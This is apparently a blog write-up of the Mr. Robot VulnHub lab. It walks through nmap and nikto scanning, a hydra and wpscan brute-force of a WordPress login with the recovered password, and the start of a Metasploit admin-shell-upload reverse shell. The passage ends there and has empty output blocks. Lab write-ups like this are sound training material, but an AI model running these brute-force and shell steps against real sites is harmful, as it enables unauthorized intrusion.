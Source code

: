 ```yaml
---
layout: post
title: "Mr. Robot"
date: 2022-04-10 20:50:57 +0200
categories: jekyll update
category: "VulnHub"
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit. Cras nulla nisi, gravida eget lacus sed, feugiat rhoncus lectus. Maecenas condimentum rutrum dolor, ut ultrices risus tempor vel. Mauris sed iaculis elit, id efficitur nulla. Morbi vitae purus et eros venenatis hendrerit quis non nibh. Suspendisse est turpis, ultricies et ipsum et, semper tincidunt ex. Phasellus accumsan enim nec arcu mollis ultricies. Suspendisse congue mi diam, ut auctor turpis faucibus ut."
---
```


[Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) has 3 flags to find.

## Preparation

The virtual machines are placed onto the same isolated internal network where they can only communicate with each other.

On the isolated internal network, a VirtualBox DHCP server assigns IP addresses to the machines:

```cmd
vboxmanage dhcpserver add --network=intnet --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```

The **Kali** machine received the IP address `10.38.1.110`.

Launching **Mr. Robot**, we're presented with a login screen that cannot be bypassed as the login credentials aren't known.

## Enumeration

### Nmap

**Nmap** can be used to discover the vulnerable machine on the network:

```sh
kali@kali$ nmap -sS -T4 10.38.1.110-120
```

```

```

**Nmap** found the vulnerable machine and reported it with the IP address `10.38.1.111` and with TCP ports `80` (http) and `443` (https) open.

Looking up `10.38.1.111` in a web browser, we're presented with the clone of the promotion website of the Mr. Robot TV series.

## 1st Flag

**Nikto** can be used to gather further information about the web server.

```

```

1. The server leaks inodes via ETags and a header has been found with file **/robots.txt**

```

```

  2. The server is running **Wordpress**

```

```

> Note<br>
> A [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) file tells search engine crawlers which URLs the crawler can access on your site.
> This is used mainly to avoid overloading your site with requests; it is not a mechanism for keeping a web page out of Google.

**robots.txt** indicates that the server doesn't have an user agent but it has two files:

- fsocity.dic
- key-1-of-3.txt

**wget** can be used to download the files:

```sh
kali@kali$ wget 10.38.1.111/fsocity.dic
kali@kali$ wget 10.38.1.111/key-1-of-3.txt
```

```sh
kali@kali$ cat key-1-of-3.txt

```

## 2nd Flag

As SSL isn't enabled on the Wordpress login page, it may be bruteforced with the downloaded dictionary file.

`fsocity.dic` contains duplicated entries that should be removed.

```sh
kali@kali$ cat fsocity.dic | sort -u | uniq > wordlist.dic
```

The word count of the dictionary has decreased from `858160` to `11451`.

```
kali@kali$ wc -l fsocity.dic
858160 fsocity.dic
```

```
kali@kali$ wc -l wordlist.dic
11451 wordlist.dic
```

To start the bruteforce attack, we need to intercept an [http POST request](<https://en.wikipedia.org/wiki/POST_(HTTP)>) in [Burp Suite](https://portswigger.net/burp).

To do that, a manual proxy must be configured in the browser and Burp Suite should have the same Proxy Listener set:

- HTTP Proxy: `127.0.0.1`
- Port: `8080`

In the intercepted POST request - that has been sent to the server - we're looking for the `log`, `pwd`, and the `wp-submit` fields.

**hydra** can be used to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-V` — Verbose
- `-L fsocity.dic` — Define dictionary
- `-p 123` — Random unique password
- `10.38.1.111` — IP of the vulnerable machine
- `http-post-form` — An http POST form is being bruteforced
- `/wp-login.php` — Path where the form is located
- `log=^USER^&pwd=^PASS&wp-submit=Log+In` — POST parameters to send, including placeholders
- `F=Invalid Username` — Consider an attempt as failure if the response contains the text "Invalid Username".

**hydra** has found 3 possible usernames:

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

**wpscan** can be used to find additional WordPress vulnerabilities and to bruteforce the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

**wpscan** has found several outdated plugins and one valid username - password pair.

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

**Metasploit** [WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module creates a small WordPress plugin that connects back to the attacking machine and spawns a reverse shell.

```sh
kali@kali$ msfconsole
```
